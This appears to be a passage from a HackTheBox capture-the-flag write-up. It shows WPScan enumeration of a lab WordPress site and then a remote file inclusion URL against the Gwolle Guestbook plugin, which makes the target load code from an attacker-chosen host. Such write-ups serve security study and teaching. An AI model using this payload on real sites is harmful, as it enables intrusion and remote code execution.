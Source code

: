             WordPress Security Scanner by the WPScan Team
                           Version 2.9.3
              Sponsored by Sucuri - https://sucuri.net
       @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
    _______________________________________________________________
    ...
    [+] We found 3 plugins:
    
    [+] Name: akismet - v4.0.3
     |  Last updated: 2018-05-26T17:14:00.000Z
     |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/
     |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
    [!] The version is out of date, the latest version is 4.0.6
    
    [+] Name: brute-force-login-protection - v1.5.3
     |  Latest version: 1.5.3 (up to date)
     |  Last updated: 2017-06-29T10:39:00.000Z
     |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/
     |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt
    
    [+] Name: gwolle-gb - v2.3.10
     |  Last updated: 2018-05-12T10:06:00.000Z
     |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/
     |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
    [!] The version is out of date, the latest version is 2.5.2
    
    [+] Enumerating installed themes (only ones marked as popular) ...
    ...
    

While none of those appear vulnerable to anything, looking at the readmes for each reveals something interesting… from :`http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt`

    == Changelog ==
    
    = 2.3.10 =
    * 2018-2-12
    * Changed version from 1.5.3 to 2.3.10 to trick wpscan ;D
    

So, this box author definitely likes to troll.

## Shell as www-data

### RFI in gwolle-gb

There’s a [RFI vulnerability in Gwolle Guestbook v 1.5.3](https://www.htbridge.com/advisory/HTB23275). In this case, visiting will include that file.`http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://ip/path`
